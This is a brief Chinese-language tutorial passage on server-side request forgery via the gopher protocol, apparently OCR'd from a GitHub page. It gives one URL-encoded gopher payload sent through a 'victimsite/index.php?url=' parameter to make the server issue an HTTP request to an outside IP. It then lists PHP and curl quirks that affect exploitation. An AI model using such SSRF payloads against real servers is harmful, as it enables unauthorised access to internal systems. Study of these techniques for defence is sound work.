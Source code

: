 gopher协议：
  
```
  
victimsite/index.php?url=gopher%3A%2F%2F106.75.199.107%3A80%2F_GET%2520%2FTst_SsrF.html
  
%2520HTTP%2F1.1%250d%250aHost%3A%2520106.75.199.107%250d%250aConnection%3A%2520close%250d%250a
  
Content-Length%3A%25200%250d%250a%250d%250a%250d%250a
  
```
  
经过测试发现 Gopher 的以下几点局限性：
  

  
* 大部分 PHP 并不会开启 fopen 的 gopher wrapper
  
* file_get_contents 的 gopher 协议不能 URLencode
  
* file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败
  
* PHP 的 curl 默认不 follow 302 跳转
  
* curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用
  

  
下图是各种语言对各种协议的支持情况：
  
![ssrf3](../pictures/ssrf3.jpg)
  